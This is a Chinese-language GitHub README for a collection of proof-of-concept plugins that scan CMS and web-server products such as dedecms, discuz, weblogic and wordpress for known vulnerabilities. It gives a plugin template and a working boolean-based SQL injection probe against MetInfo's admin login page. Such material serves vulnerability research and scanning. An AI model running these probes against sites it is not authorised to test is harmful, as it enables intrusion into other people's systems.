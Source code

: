 # cms_poc_exp
___

## 此项目的目的与意义
> 个人精力有限,故公开此项目让感兴趣的人一起搜集插件为自己/作者扫描器提供强力的驱动
> 如果感兴趣为本项目提供支持,可以联系本人QQ2563152103


+ 项目说明
  - 本项目插件现已支持Python3 不再兼容Python2,故若要使用 [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)
  进行批量扫描,请自行修改插件支持Python2
  - [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)批量扫描将会再之后修改为支持Python3

+ 现有的cms插件
  - [dedecms](https://github.com/1oid/cms_poc_exp/tree/master/dedecms)
  - [discuz](https://github.com/1oid/cms_poc_exp/tree/master/discuz)
  - [emobile](https://github.com/1oid/cms_poc_exp/tree/master/emobile)
  - [finecms](https://github.com/1oid/cms_poc_exp/tree/master/finecms)
  - [jcms](https://github.com/1oid/cms_poc_exp/tree/master/jcms)
  - [maccms](https://github.com/1oid/cms_poc_exp/tree/master/maccms)
  - [metinfo](https://github.com/1oid/cms_poc_exp/tree/master/metinfo)
  - [phpcms](https://github.com/1oid/cms_poc_exp/tree/master/phpcms)
  - [tomcat](https://github.com/1oid/cms_poc_exp/tree/master/tomcat)
  - [weblogic](https://github.com/1oid/cms_poc_exp/tree/master/weblogic)
  - [wordpress](https://github.com/1oid/cms_poc_exp/tree/master/wordpress)
  - [网站扫描插件_其他通用漏洞](https://github.com/1oid/cms_poc_exp/tree/master/www)
  - [yonyouoa](https://github.com/1oid/cms_poc_exp/tree/master/yongyouoa)
  - [zfsoft](https://github.com/1oid/cms_poc_exp/tree/master/zfsoft)

+ 插件编写格式,
```python
class Exploit:

  def attack(self, url):
    # 这里写验证漏洞的一些代码
    return "返回(提示)字符串"
```

以`metinfo_login_lang_sql`插件为例
```python
import requests
from urllib.parse import quote

class Exploit:

    def attack(self, url):
        true_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='1")
        false_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='2")

        response = requests.get(true_url)
        response2 = requests.get(false_url)

        if 'not have this language' in response2.text and 'not have this language' not in response.text:
            return "{} has SQL Injection!".format(true_url)
```


## 本项目目前支持/贡献的人
- [1oid(作者)](https://github.com/1oid)
- [ske](https://github.com/SkewwG/)提供自己编写的插件[VulScan](https://github.com/SkewwG/VulScan)

